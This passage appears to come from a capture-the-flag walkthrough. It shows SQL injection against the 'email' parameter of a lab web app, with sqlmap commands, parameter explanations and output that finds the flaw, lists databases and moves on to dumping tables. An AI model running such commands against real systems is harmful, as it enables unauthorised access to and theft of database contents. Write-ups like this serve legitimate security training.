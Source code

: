 
> Without the `token` and `cookie`, SQLi is not possible. **Burpsuite** is necessary since **caido** cannot export requests in XML format.
</div>

####
####
####
## First exploitation phase
### SQLI:
If we run **sqlmap** against the request in XML format, specifying the `email` field to exploit: `sqlmap -r req -p email --batch`. It doesn't dump anything to the terminal, but it tells us to use a higher risk level for more tests. So we rerun with increased risk:
####
```rust
sqlmap -r req -p email --level 3 --batch
```
####
| Sqlmap Param | Description |
| ----- | ----- |
| --tables | Enumerates tables |
| --columns | Enumerates columns |
| -r | XML file with the request |
| -T | Specifies the table to dump |
| --dbs | Database discovery |
| --dump | Dumps tables or columns as specified |
| --batch | Prevents user input |
| --level | Risk level for more tests |
####
####
####
### SQLI discovery databases:
Once sqlmap completes the evaluation using the resquest item, it displays an output in the terminal stating that the service is vulnerable.
####
```bash
POST parameter 'email' is vulnerable.
---
Parameter: email (POST)
Type: boolean-based blind
Type: time-based blind
---
```
####
As we already know, it can be exploited with injections based on (*time*, *boolean*), we can pass the <dbs> parameter to dump the database contents.
####
```perl
sqlmap -r req -p email --level 3 --batch --dbs
```
####
### SQLI dump tables:
With the previous command, **sqlmap** reports 3 databases that exist on the machine:
####
```js
[21:25:28] [INFO] resumed: information_schema
[21:25:28] [INFO] resumed: performance_schema
[21:25:28] [INFO] resumed: usage_blog
```
####
Now what we need to do is dump the tables that exist in those databases.
####
```perl
sqlmap -r req -p email --level 3 --batch --tables --dump
```
####